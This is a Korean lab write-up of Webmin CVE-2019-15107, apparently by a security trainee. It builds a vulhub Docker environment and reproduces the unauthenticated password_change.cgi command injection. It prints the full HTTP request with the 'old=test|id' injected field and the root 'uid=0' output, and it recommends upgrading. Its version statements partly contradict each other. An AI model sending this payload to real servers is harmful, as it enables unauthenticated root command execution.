



# 취약점 환경 분석 보고서

CVE-2019-15107 | WHS_4기_39반_조호성(0531) | @https://github.com/seesky7267

### Referrals:

- [https://github.com/vulhub/vulhub/blob/master/webmin/CVE-2019-15107](https://github.com/vulhub/vulhub/blob/master/webmin/CVE-2019-15107)
- [https://nvd.nist.gov/vuln/detail/CVE-2019-15107](https://nvd.nist.gov/vuln/detail/CVE-2019-15107)
- [https://www.exploit-db.com/exploits/47230](https://www.exploit-db.com/exploits/47230)
- [https://github.com/HACHp1/webmin_docker_and_exp](https://github.com/HACHp1/webmin_docker_and_exp)

## 1. 요약

- 1.920 이전 버전의 Webmin 취약점은 패스워드 초기화 페이지에서 발생한다.
- 인증되지 않은 사용자가 HTTP POST request의 방식으로 임의의 명령어를 실행할 수 있다.

## 2. 환경 구성

### (1) docker-compose.yml

```markdown
version: '2'
services:
 web:
   image: vulhub/webmin:1.910
   ports:
    - "10000:10000"
```

host의 10000번 포트와 Docker 컨테이너 내부의 10000번 포트를 매핑시킨다.

### (2) Docker 설치 및 이미지 빌드

먼저 docker를 ubuntu 가상머신에서 구동할 것이므로 docker를 설치한다.

```markdown
sudo apt update
sudo apt install docker.io -y
sudo apt install docker-compose -y
```

이후 다음과 같이 입력하여 docker 이미지를 빌드하고, 이미지를 기반으로 한 컨테이너를 실행한다.

```markdown
sudo docker compose up -d // 컨테이너 생성
```



sudo docker ps -a를 입력하여 정상적으로 컨테이너가 구동함을 확인할 수 있었다.

## 3. 취약 조건

1.920 이전 버전의 Webmin에서 발생한다. 이 조건을 만족하는 Webmin 버전은 1.890과 1.920 총 2개이다.

## 4. 재현 절차



[https://localhost:10000](https://localhost:10000)에 접속하면 Webmin 로그인 페이지를 마주할 수 있다. 로그인 창에서, 아래 코드 내용을 http request로 하여 보낸다. (POST method)

```markdown
password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

이 때 공격자가 원하는 정보는 ‘id’이다. 따라서 user=rootxx&pam=&expired=2&old=test|**id**&new1=test2&new2=test2 와 같이 중간에 id를 끼워넣었다.

## 5. 실행 결과



Failed to change password : The current password is incorrectuid=0(root) gid=0(root) groups=0(root)와 같이 뜬다. 즉 공격자가 원했던 정보인 root의 id를 얻는데 성공하였다.

## 6. 대응 방안

- Webmin을 1.930 이상의 안전한 버전으로 업그레이드한다.
